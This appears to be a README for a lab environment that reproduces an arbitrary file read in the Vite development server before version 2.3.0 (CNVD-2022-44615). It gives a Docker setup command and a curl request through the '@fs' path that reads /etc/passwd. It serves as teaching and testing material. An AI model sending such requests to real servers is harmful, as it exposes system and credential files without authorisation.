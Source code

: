 # Vite Development Server Arbitrary File Read (CNVD-2022-44615)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a dev server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 2.3.0, arbitrary files on the filesystem can be read using the `@fs` prefix.

References:

- <https://github.com/vitejs/vite/issues/2820>

## Environment Setup

Execute the following command to start a Vite 2.1.5 development server:

```bash
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

## Vulnerability Reproduction

You can read arbitrary files on the filesystem by using the standard `@fs` prefix:

```bash
curl "http://your-ip:5173/@fs/etc/passwd"
```

![](1.png)
